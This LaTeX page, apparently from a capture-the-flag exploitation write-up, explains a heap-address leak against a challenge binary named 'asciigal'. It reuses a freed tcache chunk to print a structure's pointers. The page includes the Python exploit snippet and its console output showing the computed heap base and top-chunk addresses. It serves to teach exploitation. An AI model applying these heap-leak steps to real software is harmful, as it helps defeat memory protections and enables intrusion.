 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsubsection{Leak heap addresses}
The snippet of the script is shown in code \ref{lst:leak-heap-addresses}. First of all two fast chunks, with the size of the chunk which contains the article structure are created, line \ref{line:p-allocate-fast-chunk}. Then, one of them is freed, line \ref{line:p-delete-fast-chunk}. This will create the following structure in the tcache:\newline
{}\newline
When a new article is allocated, line \ref{line:p-reallocate-fast-chunk}, the payload chunk is the one previously used to hold the article structure, and vice versa. In other words, by printing the payload of the new allocated chunk we are able to print the article structure content. The point is that it contains pointer to chunks, that is, a heap leak is found.
Finally, from line \ref{line:p-parse-heap-leak} the byte-stream leak is parsed and used to compute the base address of the heap and the top chunk one, code \ref{lst:leak-heap-addresses}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Leaking heap addresses with python script.},captionpos=b,label={lst:leak-heap-addresses}]
    # Leaking the heap
    print("[1]-Leaking heap addresses...")
    new_article("A"*4, 32, "A"*4)~\label{line:p-allocate-fast-chunk}~
    new_article("B"*4, 32, "B"*4)
    
    delete_article(1)~\label{line:p-delete-fast-chunk}~
    new_article("A"*4, 32, "A"*4)~\label{line:p-reallocate-fast-chunk}~
    print_article(1)
    
    heap_leak = u64(p.recv(42)[34:])~\label{line:p-parse-heap-leak}~
    heap_base = heap_leak + heap_offset
    top_chunk = heap_base + top_chunk_offset
    print("\t\tHeap base address: ", hex(heap_base))
    print("\t\tTop chunk address: ", hex(top_chunk))
\end{lstlisting}
\end{minipage}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Leaking heap addresses.}, 
captionpos=b,label={lst:leak-heap-addr}]
xman@ubuntu:/$ ./x.py
...
[+] Starting local process './asciigal': pid 2686
[1]-Leaking heap addresses...
        Heap base address:  0x555555576760
        Top chunk address:  0x555555577658
\end{lstlisting}
\end{minipage}
\end{document}
